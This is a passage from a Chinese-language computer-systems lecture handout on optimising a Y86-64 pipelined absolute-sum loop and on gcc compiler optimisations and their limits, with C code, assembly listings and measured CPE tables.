正数和负数的代价仍然差了 5 个周期。图 9（c）说明了原因：遇到负数时，jge 预测跳转，处理器已经从 pos 处取入了 addq 和 iaddq 两条指令；jge 到了执行阶段，才发现条件不成立，只好把这两条取消，回头执行取负的三条指令。在符号随机的数据上，这正是 14.18 节所说的方向随数据随机变化的分支。
那么能不能不用分支呢？14.18 节在 x86-64 上的对策是条件传送，Y86-64 也有 cmovXX。v5 先算出 –x，再根据 0 – x 的符号决定是否用它替换 x：
loop:
mrmovq (%rdi), %rdx
xorq %rcx, %rcx # fills the load/use slot
subq %rdx, %rcx # %rcx = -x, CC from (0 - x)
cmovg %rcx, %rdx # if -x > 0 (x < 0): x = -x
addq %rdx, %rax
iaddq $8, %rdi
iaddq $-1, %rsi
test:
jg loopsubq 设置的条件码反映 0 – x，所以 cmovg 恰好在 x < 0 时生效，不需要单独的 andq 测试。xorq 与 %rdx 无关，顺便填补了加载/使用的空档。每个元素固定 8 条指令，没有气泡，三组 CPE 都是 8.00。与 v4 比较，就会发现与 x86-64 上相同的取舍：数据全为正数时，分支版的 7.00 更快；数据随机时，条件传送的 8.00 比分支版的 9.43 快，而且与数据无关。
剩下的开销在循环控制上。v5 每个元素 8 条指令中，有 3 条（两条 iaddq 和 jg）是为了循环本身。14.13 节的循环展开在这里同样适用。k 路展开后，每次迭代先用 mrmovq 0(%rdi)、8(%rdi)……把 k 个元素装进不同的寄存器，再逐个求绝对值并累加。先集中装入、后逐个使用，这本身就避开了加载/使用冒险。每个元素需要 5 条指令（mrmovq、xorq、subq、cmovg、addq），每 k 个元素再加 3 条循环控制，理论 CPE 为 5 + 3/k。v6 按这个思路写成 2、4、8 路展开，凑不满 k 个的余数元素沿用 v5 的循环逐个处理。实测 CPE 为 6.50、5.76、5.42，与 5 + 3/k 的 6.50、5.75、5.375 基本一致。剩下的差距来自余数循环：n 不是 k 的倍数时，余数元素每个还是 8 个周期。
absum:
xorq %rax, %rax
iaddq $-4, %rsi # len -= 4
jl rest
block:
mrmovq 0(%rdi), %r8 # all loads first
mrmovq 8(%rdi), %r9
mrmovq 16(%rdi), %r10
mrmovq 24(%rdi), %r11
xorq %rcx, %rcx
subq %r8, %rcx
cmovg %rcx, %r8
addq %r8, %rax
... # the same 4 lines for %r9, %r10, %r11
iaddq $32, %rdi
iaddq $-4, %rsi
jge block
rest:
iaddq $4, %rsi # remaining 0..3
...常见问题：14.15 节的多个累积变量，在 PIPE 上有用吗？
没有用。实测把 v6 的 4 路展开改成 %rax、%rdx 两个累积变量交替累加，最后再相加，CPE 仍是 5.76，一点不变。在 x86-64 上，多个累积变量之所以有效，是因为浮点加法要 3～4 个周期，乱序执行的处理器可以同时推进几条互不相关的链。PIPE 是按顺序、每周期最多发射一条指令的流水线，addq 的结果经转发在下一个周期就能用，一条 addq 链本来就不会让流水线等待。决定 PIPE 上 CPE 的只有两样东西：每个元素执行几条指令，以及有多少个气泡。所以在 PIPE 上，优化的方向是减少指令条数和消除冒险，而不是缩短关键路径。
展开得越多，余数就越重要。8 路展开时余数可能有 0～7 个，逐个处理的话，n = 7 的数组要走 7 遍余数循环。另一种处理办法是 C 语言中所谓 Duff 设备的思路：把 7 个余数元素的处理写成一段不带循环的直线代码，从后往前排，入口 E7 处理第 7 个余数元素，然后顺序落入 E6，……，E1 处理第 1 个，最后返回。根据余数 r 跳到入口 Er，就恰好处理了 r 个元素。Y86-64 没有间接跳转，入口要靠比较来选：v7 用 iaddq 对余数依次加减 4、2 等常数，配合 je、jl 组成一棵比较树（图 10），每条路径至多 3 次比较。
图 10 v7 处理余数 r（0～7）的比较树：先判断 r 是否为 0，再与 4 比较，然后与 2 或 6 比较
v7 的 CPE 为 5.40，与 v6 的 5.42 几乎相同。这并不意外，因为斜率主要由展开的主循环决定。区别在短数组上（图 11（b））：n = 7 时 v6 要 78 个周期，v7 只要 70；n = 15 时从 125 降到 117。代价是 n = 1 时比较树走了一条较长的路，而且其中的 je、jl 总被预测为跳转，常常猜错：v7 要 35 个周期，比 v6 的 30 还多。图 11（b）中两条曲线在 n = 8、16、24 处都向下跳了一下，这时没有余数，所有元素都在主循环中以约 5.4 个周期的速度处理。
硬件层：分支预测策略与加载转发#
到了 v7，每个元素约 5.4 个周期，其中 5 个是必不可少的指令。如果还想再快，就要回到硬件，问一问 PIPE 的设计是否适合这个程序。教材作业 4.55、4.56 讨论了另外两种分支预测策略，作业 4.57 讨论了加载转发。这几处改动都在 PIPE 模型中实现了，表 9 列出了实测结果。
总是预测不跳转（4.55）时，取指阶段只对 jmp 和 call 使用目标地址，条件跳转一律取下一条指令。预测错误时的恢复也要反过来：被预测“不跳转”的分支如果实际跳转了，就要从跳转目标重新取指，所以译码阶段要把目标地址（而不是下一条指令的地址）作为备用地址，经 valA 一路传到访存阶段，取指阶段在发现预测错误时选用它。向后跳转、向前不跳转（4.56，简称 BTFNT）则在取指阶段比较目标地址和下一条指令的地址：目标在前（地址更小）的分支多半是循环，预测跳转；目标在后的预测不跳转。备用地址相应地取另一个方向。
表 9 三种分支预测策略下的 CPE（PIPE 模型实测；三组数据依次为符号随机、全为正数、全为负数）
| 版本 | 总是预测跳转（pipe-full.hcl） | 总是预测不跳转（4.55） | BTFNT（4.56） |
|---|---|---|---|
| v4（分支求绝对值） | 9.43 / 7.00 / 12.00 | 11.49 / 11.00 / 12.00 | 9.49 / 9.00 / 10.00 |
| v5（cmov，不展开） | 8.00 | 10.00 | 8.00 |
| v6（cmov，8 路展开） | 5.42 | 5.62 | 5.39 |
| v7（8 路展开 + 比较树） | 5.40 | 5.57 | 5.36 |
表中的每个数都可以用预测错误的次数解释。总是预测不跳转对所有版本都更差，因为循环末尾的 jg 每次都要跳回去，每次都猜错：v5 正好每个元素多 2 个周期，从 8.00 变成 10.00。展开 8 路后，这 2 个周期分摊到 8 个元素上，影响就小得多（5.42 变成 5.62）。
BTFNT 对循环末尾的 jg 与“总是预测跳转”相同，所以 v5 不变。v4 中的 jge pos 是向前跳转，BTFNT 预测不跳转，结果正数和负数调换了角色：正数元素每次都猜错，CPE 从 7.00 变成 9.00；负数元素每次都猜对，从 12.00 变成 10.00。由此可见，改预测策略时，必须同时调整代码中分支的方向，否则硬件的改进可能被代码的布局抵消。对 v7 来说，比较树中的分支都是向前跳转，BTFNT 让其中“不跳转”的方向猜对了，n = 7 时从 70 个周期降到 62 个，CPE 也从 5.40 降到 5.36。
加载转发（4.57）针对的是 mrmovq 之后紧跟一条把装入的值写回内存的 rmmovq 或 pushq 的情形：被装入的值只是作为要存储的数据，可以在访存阶段直接转发，不必暂停。absum 不写内存，这项改动对所有版本都没有影响，CPE 一个不变。这也是一个提醒：硬件改进有没有用，要看程序的瓶颈在哪里。复制数组之类先读后写的程序会受益，absum 却用不上。
硬件之外，数据本身的特点也会改变取舍。如果已知数据几乎全为正，分支写法每个元素只需 4 条指令（mrmovq、andq、jge、addq），比 cmov 写法的 5 条还少一条。把 v6 的 8 路展开改用分支求绝对值，实测全为正数组的 CPE 为 4.42，比 cmov 版的 5.42 快；但符号随机组为 6.88，全为负数组为 9.40。与 14.18 节的结论完全一样：分支能不能用，取决于数据是否可预测。
回顾：三个层次各做了什么#
表 10 和 图 11（a）汇总了全部版本。从 v0 的 16.95 到 v7 的 5.40，符号随机数据上的 CPE 降到约三分之一。每一步的收益都可以用“指令条数 + 气泡数”逐个解释。
表 10 absum 各版本的 CPE（PIPE 模型实测，总是预测跳转；n = 1～64 拟合）与每个元素的代价构成
| 版本 | 符号随机 | 全为正数 | 全为负数 | 正数元素的代价（指令 + 气泡） |
|---|---|---|---|---|
| v0 逐句翻译，调用 labs | 16.95 | 15.00 | 19.00 | 12 条 + ret 的 3 个气泡 |
| v1 内联 labs | 12.43 | 10.00 | 15.00 | 9 条 + 1 个加载/使用气泡 |
| v2 常数移出循环 | 10.43 | 8.00 | 13.00 | 7 条 + 1 |
| v3 使用 iaddq | 10.43 | 8.00 | 13.00 | 7 条 + 1（只省掉循环外的 2 条） |
| v4 调度填补空档 | 9.43 | 7.00 | 12.00 | 7 条（负数另加 3 条 + 2 个预测错误） |
| v5 条件传送 | 8.00 | 8.00 | 8.00 | 8 条，与数据无关 |
| v6 2 / 4 / 8 路展开 | 6.50 / 5.76 / 5.42 | 同左 | 同左 | 5 + 3/k 条 |
| v7 8 路展开 + 比较树 | 5.40 | 5.40 | 5.40 | 同 v6；短数组更快 |
图 11 absum 各版本的实测结果（PIPE 模型，总是预测跳转）：（a）CPE；（b）n ≤ 24 时的总周期数
回头看这三个层次，它们的顺序并不是随意的。源程序层先去掉不必要的工作（过程调用、循环中重复装入常数），这一步与机器无关，收益也最大：从 16.95 降到 10.43。指令集层增加 iaddq，单看并不减少 CPE，但它为后面的展开腾出了寄存器。汇编层针对 PIPE 的三种冒险逐个处理：用调度消除加载/使用冒险，用条件传送消除不可预测的分支，用展开摊薄循环控制的指令，再用比较树处理余数。硬件层最后再检查处理器的设计是否符合程序的特点：BTFNT 对 v7 有小幅改善，对 v4 却会帮倒忙，加载转发则毫无作用。
★ 在 Y86-64 PIPE 上优化循环的要点
第一，PIPE 按顺序执行，每周期至多完成一条指令。CPE 就等于每个元素平均执行的指令条数，加上平均的气泡数，所以要先数指令、再数气泡。
第二，气泡只有三种来源：加载/使用冒险 1 个、分支预测错误 2 个、ret 3 个。对策依次是：在 mrmovq 和使用它的指令之间放无关指令（或先集中装入、后逐个使用）；把方向随数据变化的分支改为 cmovXX；内联小函数、避免在循环中 call/ret。
第三，循环展开 k 路，把每个元素分摊的循环控制指令从 3 条降到 3/k 条。展开后要处理余数，短数组上余数的处理方式影响很大。多个累积变量在 PIPE 上没有作用。
第四，改 HCL 之前先想清楚它针对哪种开销：iaddq 减少指令条数并节省寄存器；分支预测策略要与代码中分支的方向配合；加载转发只对先读后写的程序有用。每一项改动都要在模拟器上实测，并对各种长度和数据验证结果正确。
第二部分 小班研讨题解答（第 14 讲）#
两套研讨题的页码与 2026 版课件一致（见“如何使用本讲义”后的说明）。第一部分已经完整讲过的内容，这里给出要点并注明小节；题目要求“自己设计代码示例并编译成汇编”的部分，讲义给出新设计的例子和 gcc 13 在默认环境上实际生成的汇编（为便于阅读，省略了 .cfi_ 等伪指令和函数开头的 endbr64）。
研讨题 1：编译相关的优化技术#
1（1）基于课件第 6～7 页，先根据示例解读该优化技术（Code motion），然后自己设计一段新的代码示例，并编译成汇编代码，能够体现该优化技术。
先根据课件的示例解读这一技术（详见 14.2 节）。代码移动是把每次执行结果都相同的计算移到执行次数更少的地方，最典型的是移出循环。课件的 set_row 在循环中计算 a[n*i+j]，n*i 与 j 无关；gcc -O1 把乘法 n*i 和地址 a + ni*8 都移到循环之前，循环里只剩 5 条指令。默认环境的 gcc 13 生成的汇编与课件逐条相同。
在此基础上再设计一个新例子。这回选一个代价远高于乘法的运算——浮点除法（延迟十几个周期，且不完全流水化，见表 4）——让它出现在循环里，但结果与循环变量无关：
/* 例 1：x / y 与 i 无关 */
void scale(double *a, long n, double x, double y) {
for (long i = 0; i < n; i++)
a[i] = a[i] * (x / y);
}
/* 例 2：写法相同，但除数和被除数从内存读 */
void scale_mem(double *a, long n, double *px, double *py) {
for (long i = 0; i < n; i++)
a[i] = a[i] * (*px / *py);
}-O0 下，scale 的循环体每次都执行 divsd -48(%rbp), %xmm0，与 C 代码逐句对应。-O1 下，除法被移到了循环之前：
scale: # a 在 %rdi，n 在 %rsi，x 在 %xmm0，y 在 %xmm1
testq %rsi, %rsi
jle .L1
divsd %xmm1, %xmm0 # t = x / y，在循环外只算一次
movq %rdi, %rax
leaq (%rdi,%rsi,8), %rdx # 末地址也预先算好
.L3:
movapd %xmm0, %xmm1
mulsd (%rax), %xmm1 # a[i] * t
movsd %xmm1, (%rax)
addq $8, %rax
cmpq %rdx, %rax
jne .L3
.L1:
ret如果 x、y 改成从内存读出，情况就不同了。scale_mem 的写法与 scale 一模一样，-O1 却没有把除法移出循环：
.L7: # scale_mem 内层循环（-O1）
movsd (%rdx), %xmm0 # 每次都重新读 *px
divsd (%rcx), %xmm0 # 每次都重新读 *py 并做除法
mulsd (%rax), %xmm0
movsd %xmm0, (%rax) # 写 a[i]
addq $8, %rax
cmpq %rsi, %rax
jne .L7原因是循环每次都写 a[i]，而 px 或 py 可能恰好指向 a 中的某个元素（内存别名，14.8 节），写了 a[i] 之后 *px / *py 的值就可能变了，编译器无法证明它不变，所以不敢移动。默认环境上实测（n = 4096），scale 每个元素约 0.85 个周期，scale_mem 约 4.0 个周期，后者正好被除法器的吞吐量（约每 4 个周期一次）卡住。如果确知不会有别名，程序员应在循环前写 double t = *px / *py;，自己完成代码移动。
1（2）基于课件第 8 页，先根据示例解读该优化技术（Strength reduction），并以实际操作说明编译器是否会做该项优化（还是必须人工做）。
先解读这一技术（详见 14.3 节）。强度削减是用代价低的运算代替代价高的运算：乘以 2 的幂改为左移，乘以其他常数改为移位与加减的组合，除法改为移位或乘法；以及把循环中的乘积序列 n*i（i 每次加 1）改为累加 ni += n。它是否划算取决于机器上乘除法的代价。
编译器究竟做不做强度削减？最直接的办法是编译出来看一看。下面的函数分别用 -O0 和 -O1 编译，结果汇总在表 11中。
long mul16(long x) { return 16 * x; }
long mul7(long x) { return 7 * x; }
long mul45(long x) { return 45 * x; }
long mul1000(long x){ return 1000 * x; }
unsigned long udiv8(unsigned long x) { return x / 8; }
long sdiv8(long x) { return x / 8; }
unsigned long udiv10(unsigned long x) { return x / 10; }
void rows(int *a, int *b, int n) { /* 课件 p.8 左边的代码 */
for (int i = 0; i < n; i++) {
int ni = n * i;
for (int j = 0; j < n; j++)
a[ni + j] = b[j];
}
}表 11 gcc 13 是否做强度削减（默认环境实测）
| 函数 | -O1 生成的关键指令 | 说明 |
|---|---|---|
| 16*x | salq $4, %rax | 左移 4 位；-O0 也是如此 |
| 7*x | leaq 0(,%rdi,8), %rax subq %rdi, %rax | 8x – x；-O0 也是如此 |
| 45*x | leaq (%rdi,%rdi,2) salq $4 subq | 3x × 16 – 3x = 45x |
| 1000*x | imulq $1000, %rdi, %rax | 拆开要好几步，不如一条乘法 |
| x/8（无符号） | shrq $3, %rax | 逻辑右移 |
| x/8（有符号） | leaq 7(%rdi) cmovns sarq $3 | 负数先加偏置 7 再算术右移，保证向零舍入（第 2 讲） |
| x/10（无符号） | movabsq $0xCCCCCCCCCCCCCCCD mulq shrq $3 | 乘以 267/10 的近似值再右移，取高 64 位，比除法快得多 |
| rows：n*i | 内外层循环中都没有乘法；外层每轮 addq %r8, %rdi（%r8 = 4n） | -O0 内层循环每次都有 imull；-O1 改成行指针的累加 |
从表中可以得出结论：乘以、除以常数的强度削减，gcc 在 -O0 下就会做，而且会权衡代价——1000*x 拆开需要好几条指令，不如一条延迟 3 个周期的 imulq，它就不拆。循环中的乘积序列（归纳变量的强度削减），gcc 在 -O1 以上会做：rows 的汇编中 n*i 完全消失，外层循环每轮只给行指针加 4n 字节。所以课件 p.8 的这两种情况都不必人工去做；需要人工做的，是编译器看不出等价关系的情况，例如 14.5 节冒泡排序中用字节偏移 t2、t6 代替下标 j 并删掉 j，或者算法层面的变换（例如把每次重新计算的多项式 a·xk 改写成每次乘以 x 的递推）。
1（3）基于课件第 9 页，先根据示例解读该优化技术（Common subexpressions），然后自己设计一段新的代码示例，并编译成汇编代码，能够体现该优化技术。
这一技术的要点 14.4 节已经讲过：课件把求 (i, j) 四个邻居的下标改写成以 inj = i*n + j 为基础加减常数，3 次乘法变成 1 次；gcc -O1 能做这种共享。
把课件的二维网格推广到三维，就得到一个公共子表达式更多的新例子——求三维网格的 6 个邻居之和。三维数组 v[nx][ny][nz] 按行优先摊平成一维，(i, j, k) 的下标是 (i·ny + j)·nz + k。它在 i、j、k 三个方向上的 6 个邻居：
double nb6(double *v, long ny, long nz, long i, long j, long k) {
return v[((i-1)*ny + j)*nz + k] + v[((i+1)*ny + j)*nz + k]
+ v[(i*ny + j-1)*nz + k] + v[(i*ny + j+1)*nz + k]
+ v[(i*ny + j)*nz + k-1] + v[(i*ny + j)*nz + k+1];
}
/* 手工共享：中心下标 c 只算一次，6 个邻居只差 ±1、±nz、±ny*nz */
double nb6_cse(double *v, long ny, long nz, long i, long j, long k) {
long sj = nz, si = ny * nz;
long c = (i*ny + j)*nz + k;
return v[c - si] + v[c + si] + v[c - sj] + v[c + sj] + v[c - 1] + v[c + 1];
}表 12 nb6 与 nb6_cse 的乘法次数（gcc 13，默认环境）
| 函数 | -O0 乘法 / 总指令 | -O1 乘法 / 总指令 | 说明 |
|---|---|---|---|
| nb6 | 12 / 100 | 4 / 28 | 每个下标 2 次乘法，6 个下标共 12 次；-O1 共享后剩 4 次 |
| nb6_cse | 3 / 69 | 3 / 22 | ny·nz、i·ny、(…)·nz 各一次 |
nb6_cse 的 -O1 汇编只有 3 条 imulq：
nb6_cse: # v=%rdi ny=%rsi nz=%rdx i=%rcx j=%r8 k=%r9
movq %rdi, %rax
movq %rcx, %rdi
movq %rdx, %rcx
imulq %rsi, %rcx # si = ny*nz
imulq %rdi, %rsi # i*ny
addq %r8, %rsi # i*ny + j
imulq %rdx, %rsi # (i*ny + j)*nz
addq %rsi, %r9 # c = (i*ny + j)*nz + k
movq %r9, %rsi
subq %rcx, %rsi # c - si
addq %r9, %rcx # c + si
movsd (%rax,%rsi,8), %xmm0
addsd (%rax,%rcx,8), %xmm0
movq %r9, %rcx
subq %rdx, %rcx # c - nz
addsd (%rax,%rcx,8), %xmm0
addq %r9, %rdx # c + nz
addsd (%rax,%rdx,8), %xmm0
addsd -8(%rax,%r9,8), %xmm0 # v[c-1]：±1 由寻址方式的位移 ±8 完成
addsd 8(%rax,%r9,8), %xmm0 # v[c+1]
ret可以看到两点。第一，gcc -O1 确实会自动共享公共子表达式（12 次降到 4 次），但它只能共享字面上相同或简单相关的部分，想不到把 (i–1)·ny 改写成 i·ny – ny 再乘以 nz 这一层，手工整理还能再省一次乘法、6 条指令。第二，±1 的邻居连加法都省了，直接用寻址方式中的位移 –8、+8 实现。
反过来，如果两个相同的表达式之间夹着一次内存写入，共享就会被打断，例如：
struct pt { long x, y; };
long twice(struct pt *p, long *q) {
long a = p->x * 3;
*q = 0;
long b = p->x * 3; /* 与 a 是同一个表达式 */
return a + b;
}-O1 生成 movq (%rdi), %rax；movq $0, (%rsi)；addq (%rdi), %rax；leaq (%rax,%rax,2), %rax：p->x 被读了两次。因为 q 可能指向 p->x，写 *q 之后 p->x 的值可能已经变了，两个 p->x * 3 不一定相等，不能共享。（gcc 把 3a + 3b 合并成 3(a + b)，这是整数运算满足分配律所允许的。）
1（4）基于课件第 10～18 页，逐步解读冒泡排序伪代码的优化过程。
逐步过程见 14.5 节和表 2，要点如下。第一步（p.11）逐句翻译，A[j] 的地址按 4·(j–1) 计算，内层循环 25 条、外层循环体 29 条。第二步（p.12–13）共享地址计算中的公共子表达式：t4–t6、t10–t12、t16–t18 都等于 4j，t8–t9、t14–t15 都等于 4(j–1)，内层降为 16 条。第三步（p.14–15）消除重复的读内存：交换时要用的 A[j]、A[j+1] 在比较时已经读到 t3、t7 中，其间没有写 A，直接写回即可，内层降为 11 条。第四步（p.16–18）消除循环中的冗余：t2 = 4(j–1)、t6 = 4j 是归纳变量，改为每次加 4（强度削减）；循环条件 j > i 改写成 t6 > t19，t19 = 4i 移到内层循环之前（代码移动），j 被完全删去，最后 4*i 改为 i << 2，内层循环 9 条、外层 15 条。
作为对照，下面是 gcc 13 -O1 对课件 p.10 的 C 代码（A 为静态 int 数组，下标 1..n）生成的汇编。它完成了第二、三步（每个元素只读一次，交换时直接写回两个寄存器，没有 temp），以及外层循环的组织；没有做第四步中“用字节偏移代替 j”，因为 x86-64 的比例变址寻址 A(,%rax,4) 由硬件完成“乘以 4”，而 A[j] 的“减 1”被并入位移 A-4。“不交换”路径上一次内层迭代是 7 条指令。
bubble: # n 在 %rdi；%rdi 兼作外层的 i+1
cmpq $1, %rdi
jg .L3
.L1:
ret
.L4: # 内层循环的条件：j+1 == i+1 时结束
cmpq %rdi, %rax
je .L7
.L5: # 内层循环体（此时 %rax = j）
movl A(,%rax,4), %edx # t3 = A[j]
addq $1, %rax # j++（%rax 变成 j+1）
movl A(,%rax,4), %ecx # t7 = A[j+1]
cmpl %ecx, %edx
jle .L4 # A[j] <= A[j+1]：不交换
movl %ecx, A-4(,%rax,4) # A[j] = t7
movl %edx, A(,%rax,4) # A[j+1] = t3
jmp .L4
.L7: # 外层：i--
subq $1, %rdi
cmpq $1, %rdi
je .L1
.L3:
movl $1, %eax # j = 1
jmp .L51（5）基于课件第 21～27 页，解读编译优化的第 1 种限制（Procedure Calls）。
这一问 14.7 节已完整讲过，这里归纳要点。lower1 的循环条件 i < strlen(s) 每次迭代都要求值，strlen 本身要扫描整个字符串，总时间 O(N²)；把 strlen 移出循环的 lower2 是 O(N)。默认环境上 20 万个字符，lower1 用逐字节的 strlen 需要 12.3 秒，用 C 库的 strlen 需要 0.34 秒，lower2 只需 0.06 毫秒（图 1）。gcc 13 在 -O1、-O2、-O3 下都把 call strlen 留在循环里：
lower1: # -O1：s 在 %rbp，i 在 %rbx
...
.L7:
addq $1, %rbx # i++
.L6:
movq %rbp, %rdi
call strlen@PLT # 每次迭代都调用 strlen(s)
cmpq %rax, %rbx
jnb .L10 # i >= strlen(s)：结束
movzbl 0(%rbp,%rbx), %eax # s[i]
leal -65(%rax), %edx # s[i] - 'A'
cmpb $25, %dl # 按无符号比较 <= 25 即 'A' <= s[i] <= 'Z'
ja .L7
addl $32, %eax # s[i] -= ('A' - 'a')，即加 32
movb %al, 0(%rbp,%rbx)
jmp .L7编译器不移动它，是因为它把过程调用看作黑盒（课件 p.27）：被调函数可能有副作用（如课件中每次调用都累加全局变量 lencnt 的 strlen），移出循环会改变调用次数；被调函数对相同参数不一定返回相同的值，何况 lower 的循环体在修改 s 本身。实测还说明了一个细节：gcc 认识 C 库的 strlen，知道它无副作用，如果循环体只读 s 不写 s（例如统计大写字母个数），-O1 就会把 strlen 移到循环之前；挡住优化的是“循环体写内存”。（这个汇编中把两个比较 s[i] >= 'A' && s[i] <= 'Z' 合成一个无符号比较，本身也是编译器的一个小优化：s[i] – 'A' 按无符号数看，只有在 0～25 之间时才不大于 25。）
补救的办法：一是内联，被调函数在同一文件中时，gcc -O1 就可能把它展开，从而看清它做了什么；二是程序员自己做代码移动，这是最可靠的。
1（6）基于课件第 28～31 页，解读编译优化的第 2 种限制（Memory Alias）。
sum_rows1 的问题 14.8 节已经分析过：它在内层循环中每次读写 b[i]，编译器不能改为寄存器累加，因为 b 可能指向 a 的内部。课件的例子 B = A + 3、n = 3，默认环境实测 sum_rows1 的结果是 [3, 22, 224]，与课件 p.29 一致；改用局部变量累加的 sum_rows2 得到 [3, 27, 224]——有别名时两个版本的结果不同，所以编译器不能把一个改成另一个。没有别名时，sum_rows2 每个元素约 2.0 个周期，sum_rows1 约 8 个周期。
补救办法有三：在局部变量中累积（课件 p.31 推荐，最通用）；用 C99 的 restrict 向编译器承诺无别名（实测加上后 -O1 生成的代码与 sum_rows2 相同）；更高的优化级别（-O2 会把部分和留在寄存器中，每次只写不读，保证有别名时结果仍正确，速度与 sum_rows2 相当）。研讨题 1（1）的 scale_mem 和 1（3）的 twice 是另外两个由别名引起的“不敢优化”的例子：前者不能外提循环不变量，后者不能共享公共子表达式。
1（7）结合上面的研讨，再根据课件第 20 页，小结编译优化的限制和优化原则。
课件 p.20 列出的种种限制（详见 14.6 节）可以归结为一句话：编译器的根本约束是不能改变程序的行为，即使这种改变只在极端情况下出现；它只能做能证明正确的变换。由此带来：第一，程序员知道而代码没有表达出来的事实（例如两个指针不会重叠、某个函数没有副作用、变量的取值范围有限），编译器不知道；第二，分析通常只在一个过程内，最多在一个源文件内，看不到其他文件中函数的实现；第三，分析只基于静态信息，不知道运行时的输入。拿不准时只能保守。上面几题的实测是这几条限制的具体表现：
表 13 研讨题 1 中编译器“会做”与“不会做”的优化（gcc 13 -O1）
| 优化 | 会做 | 不会做（原因） |
|---|---|---|
| 代码移动 | set_row 的 n*i；scale 的 x/y | scale_mem 的 *px / *py（别名）；lower1 的 strlen（过程调用 + 写内存） |
| 强度削减 | 乘除常数（-O0 起）；循环中的乘积序列 | 需要改变算法或删去变量的情况（冒泡排序的第四步） |
| 公共子表达式 | 课件 p.9；nb6 从 12 次乘法降到 4 次 | 需要代数变形的部分；twice 中隔着一次内存写的 p->x |
| 寄存器累积 | sum_rows2、combine4（程序员已写成局部变量） | sum_rows1、combine3（别名） |
从这些限制出发，可以总结出程序员应当遵循的优化原则。第一，先选好算法和数据结构，编译器不改变渐近复杂度（lower1 的平方复杂度就是隐藏的算法低效）。第二，打开优化选项，让编译器做它擅长的事：寄存器分配、指令选择、常数的强度削减、简单的公共子表达式和代码移动——这些不必手工去做，手工做反而降低可读性。第三，替编译器做它不敢做的事：把结果不变的函数调用移出循环；在局部变量中累积，而不是反复通过指针读写内存；必要时用 restrict 声明无别名。第四，关注最内层的循环，在那里检查汇编，确认没有多余的内存访问和函数调用。第五，在此基础上再考虑与机器相关的优化（研讨题 2）。
研讨题 2：指令级并行等优化技术#
2（1）基于课件第 34～36 页，解读 combine1 要评测的操作，然后解释 CPE 的定义。
这一问对应 14.9 节。combine1 对一个向量抽象数据类型的所有元素做“合并”：OP 为 + 时 IDENT = 0，求和；OP 为 * 时 IDENT = 1，求积；data_t 可以是 int、long、float、double，共 8 种组合，按“整数 / 浮点 × 加 / 乘”四列报告结果。combine1 写得很“抽象”：每次循环都调用 vec_length 求长度、调用带边界检查的 get_vec_element 取元素，并把结果累积在 *dest 中——后面的各个版本逐一消除这些开销。（课件 p.34 的参数声明 *vec v 应为 vec *v，见 14.9 节的橙色方框。）
有了这个基准，就可以定义 CPE（每元素的周期数）：程序处理长度为 n 的向量所需的周期数近似为 T = CPE × n + 固定开销，CPE 是这条直线的斜率；对 combine 系列，它就是每次 OP 运算平均花费的周期数。用周期而不用秒，是因为它反映程序与处理器结构的关系，不随主频变化；用斜率而不用总时间，是为了排除与 n 无关的固定开销。课件 p.36 的 psum1、psum2 两条直线斜率分别为 9.0、6.0，默认环境上重测为 8.5、5.3（图 2）。
2（2）基于课件第 37～39 页，并结合教材，逐个解读 combine1/2/3/4 的优化操作和效果。
四个版本的完整分析见 14.10 节和表 3，这里按顺序串一遍。combine1 只是打开 -O1，教材上 CPE 就从约 20 降到约 10。combine2 把 vec_length 移出循环（代码移动），教材上整数加法从 10.12 降到 7.02，其余小幅改善。combine3 用 get_vec_start 取得数组首地址后直接访问 data[i]，消除了每次的函数调用和边界检查，CPE 却几乎不变——这些开销都不在瓶颈上，边界检查的分支总能预测正确。真正见效的是 combine4：它在局部变量 acc 中累积，循环结束后才写 *dest，每次迭代的内存操作从两读一写变为一读，CPE 降到 1.27、3.01、3.01、5.01（默认环境 1.00、3.00、2.00、3.00），达到了延迟界限。combine3 慢的根本原因是每次迭代的相关链都要经过内存（写 *dest、再读出）；编译器不能自动做 combine4 的变换，因为 dest 可能是向量中某个元素的别名（教材的 v = [2, 3, 5] 例子：combine3 得 36，combine4 得 30）。
2（3）基于课件第 40 页的现代超标量流水线处理器设计结构图，对照此前课程学过的五级单流水线处理器，逐个流水级解读二者的异同。
第 11 讲的 PIPE 与课件 p.40 的现代处理器（图 3）都是“流水线 + 转发 + 分支预测”的思想，但规模和组织方式差别很大。课件的图不是按五个阶段画的，下面按 PIPE 的五个阶段逐一对照（表 14）。
表 14 五级流水线 PIPE 与现代超标量乱序处理器的逐级对照
| 阶段 | PIPE（第 11 讲） | 现代处理器（课件 p.40） |
|---|---|---|
| 取指 F | 每周期取 1 条指令；预测下一个 PC：跳转指令一律预测跳转，ret 不预测（插入气泡） | 指令控制单元的取指控制每周期从指令高速缓存取多条指令；分支预测器记录历史，准确率 95% 以上，也预测 ret 的返回地址；取指远远走在执行之前 |
| 译码 D | 读寄存器文件；用转发逻辑从后面的阶段取最新值；加载/使用冒险时暂停一个周期 | 把指令拆成若干个微操作；寄存器重命名，为每个结果分配标签，消除名字相同引起的假相关；操作放入等待队列，记录它在等哪些标签 |
| 执行 E | 一个 ALU，按程序顺序每周期执行一条 | 多个功能单元（整数、乘法、浮点、分支、加载、存储），多数是流水化的、延迟各不相同；操作数一到齐就执行，不按程序顺序；每周期可执行多个操作（超标量） |
| 访存 M | 一个数据存储器端口，每周期最多一次读或写 | 加载单元、存储单元经数据高速缓存访存，每周期可做多次加载；待写的数据可直接转发给后面读同一地址的加载 |
| 写回 W | 结果在 W 阶段写入寄存器文件，按程序顺序 | 结果先经“操作结果”通路转发给等待它的操作；退役单元按程序顺序确认，只有确认无误（包括分支预测正确）的结果才写入寄存器文件 |
从表中可以看出，两者的基本思想是相同的：都把一条指令的执行分成若干步、让多条指令重叠执行；都用转发把结果直接送给需要它的指令，而不是等它写回寄存器；都用分支预测提前取指，预测错误时取消错误路径上的指令，保证程序可见的状态只按顺序更新（PIPE 在 W 阶段之前作废，现代处理器靠退役单元）。
但在实现的规模上，两者有四点不同。第一是宽度，PIPE 每周期最多发射一条指令，现代处理器是超标量的，每周期可发射、执行、退役多条。第二是执行的顺序，PIPE 严格按程序顺序执行，遇到加载/使用冒险只能暂停；现代处理器乱序执行，一条指令等数据时，后面无关的指令照样执行。第三是执行部件，PIPE 只有一个单周期的 ALU，现代处理器有多个延迟不同的流水化功能单元。第四是预测错误的代价，PIPE 只损失 2 个周期，现代处理器的流水线深得多，又提前取了大量指令，预测错误要损失 20 个周期左右（14.18 节）。
2（4）基于课件第 43 页，配合第 40 页的结构图（不是一一对应，但可以参照），解读 CPU 中功能部件数量和性能指标，然后结合第 42 页讲解功能部件的流水化和非流水化的区别。
